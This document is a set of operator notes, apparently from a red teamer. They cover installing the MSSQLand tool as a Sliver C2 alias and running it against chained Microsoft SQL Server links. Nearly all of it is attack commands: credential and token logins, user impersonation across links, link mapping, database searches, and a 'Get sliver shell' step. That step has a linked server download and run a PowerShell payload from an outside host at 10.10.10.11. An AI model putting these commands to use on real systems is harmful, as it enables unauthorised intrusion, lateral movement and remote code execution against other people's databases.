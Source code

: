 # MSSQLand

Link: https://github.com/n3rada/MSSQLand

## Add Custom Command

### 1) Locate aliases directory

    /home/kali/.sliver-client/aliases

### 2) Create new folder mssqland

    mkdir mssqland

### 3) Create alias.json with contents:

    {
        "name": "MSSQLand",
        "version": "v1.0",
        "command_name": "mssqland",
        "original_author": "n3rada",
        "repo_url": "https://github.com/n3rada/MSSQLand",
        "help": "Effortlessly navigate and conquer linked Microsoft SQL Server (MS SQL) servers",
        "entrypoint": "Main",
        "allow_args": true,
        "default_args": "/help",
        "is_reflective": false,
        "is_assembly": true,
        "files": [
          {
            "os": "windows",
            "arch": "amd64",
            "path": "MSSQLand.exe"
          },
          {
            "os": "windows",
            "arch": "386",
            "path": "MSSQLand.exe"
          }
        ]
    }

### 4) Paste compiled MSSQLand.exe

In project directory, run

    dotnet publish -c Release -r win-x64 --self-contained true /p:PublishSingleFile=true -o out

### 5) Restart Sliver

## Usage

### 1) Local Authentication on different SQL servers

    execute-assembly -t 20 /home/kali/tools/bins/csharp-files/MSSQLand.exe /c:local /u:localuser /p:password /h:sql01 /action:whoami
    execute-assembly -t 20 /home/kali/tools/bins/csharp-files/MSSQLand.exe /c:local /u:localuser /p:password /h:sql02 /action:whoami
    execute-assembly -t 20 /home/kali/tools/bins/csharp-files/MSSQLand.exe /c:local /u:localuser /p:password /h:sql03 /action:whoami


### 2) Token authentication (current user)

    execute-assembly -t 20 /home/kali/tools/bins/csharp-files/MSSQLand.exe /c:token /h:sql04 /a:whoami
    execute-assembly -t 20 /home/kali/tools/bins/csharp-files/MSSQLand.exe /c:token /h:localhost /a:whoami


### 3) Check what user can be impersonated on current instance

    execute-assembly -t 20 /home/kali/tools/bins/csharp-files/MSSQLand.exe /c:token /h:sql01 /a:impersonate


### 4) List down the chained links

    execute-assembly -t 20 /home/kali/tools/bins/csharp-files/MSSQLand.exe /c:local /u:localuser /p:password /h:sql01 /action:linkmap


### 5) Linkmap to check links (really useful)

    SQL01 (localuser [dbo]) ---> SQL02 (localGroup [dbo]) ---> SQL03 (localapps [guest])
    SQL01 (localuser [dbo]) ---> SQL03 (localAccount [dbo]) ---> SQL02 (localGroup [dbo]) ---> SQL03 (localapps [guest])


### 6) Impersonate user across link

    execute-assembly -t 20 /home/kali/tools/bins/csharp-files/MSSQLand.exe /c:local /u:localuser /p:password /h:sql01 /l:sql02 /action:whoami
    execute-assembly -t 20 /home/kali/tools/bins/csharp-files/MSSQLand.exe /c:local /u:localuser /p:password /h:sql01:localuser /l:sql02 /action:whoami
    execute-assembly -t 20 /home/kali/tools/bins/csharp-files/MSSQLand.exe /c:local /u:localuser /p:password /h:sql01:localuser /l:sql03 /action:whoami
    execute-assembly -t 20 /home/kali/tools/bins/csharp-files/MSSQLand.exe /c:token /h:sql01:devUser /l:SQL02,sql01 /a:whoami


### 7) Impersonating users across link - sql01 -> sql03 -> sql02

    execute-assembly -t 20 /home/kali/tools/bins/csharp-files/MSSQLand.exe /c:local /u:localuser /p:password /h:sql01:localuser /l:SQL03:localAccount,SQL02:localGroup /action:whoami


### 8) Get sliver shell

    execute-assembly -t 40 /home/kali/tools/bins/csharp-files/MSSQLand.exe /c:local /u:localuser /p:password /h:sql01:webapp11 /l:sql27 /action:pwshdl '10.10.10.11/hav0c-ps.txt'
    execute-assembly -t 40 /home/kali/tools/bins/csharp-files/MSSQLand.exe /c:local /u:localuser /p:password /h:sql01:webapp11 /l:sql53 /action:pwshdl '10.10.10.11/hav0c-ps.txt'
    execute-assembly -t 40 /home/kali/tools/bins/csharp-files/MSSQLand.exe /c:token /h:sql01:devUser /l:SQL02,sql01 /a:pwshdl "10.10.10.11/hav0c-ps.txt"
    execute-assembly -t 40 /home/kali/tools/bins/csharp-files/MSSQLand.exe /c:token /h:sql01:devUser /l:SQL02,sql01,SQL02 /a:pwshdl "10.10.10.11/hav0c-ps.txt"


### 9) Search Databases (within link)

    execute-assembly -t 20 /home/kali/tools/bins/csharp-files/MSSQLand.exe /c:token /h:sql01:devUser /l:SQL02,sql01,SQL02 /a:databases


### 10) Search strings in databases (with spaces, for each string)

    execute-assembly -t 20 /home/kali/tools/bins/csharp-files/MSSQLand.exe /c:token /h:sql01:devUser /l:SQL02,sql01,SQL02 /a:search wordpress
    execute-assembly -t 20 /home/kali/tools/bins/csharp-files/MSSQLand.exe /c:token /h:sql01:devUser /l:SQL02,sql01,SQL02 /a:search wordpress admin
